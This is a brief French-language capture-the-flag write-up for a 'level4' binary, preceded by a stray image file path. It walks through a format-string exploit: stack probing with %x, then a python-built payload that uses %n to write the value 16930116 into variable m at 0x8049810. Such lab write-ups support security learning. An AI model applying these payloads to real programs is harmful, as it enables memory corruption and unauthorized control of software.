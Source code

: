 # level4

# le début est le même que pour le evel précedent mais cette fois si la variable m est comparé a 16930116

$ echo "AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
$

# On voit que le buffer est a la 12e place dans la stack et donc la changer par l'adresse de m => 0x8049810

$ python -c 'print "\x10\x98\x04\x08" + "%x %x %x %x %x %x %x %x %x %x %x %x"' | ./level4
$

# on fait la même chose que pour le level3 mais avec un %d car le chiffre comparer est trop long sinon

$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4
$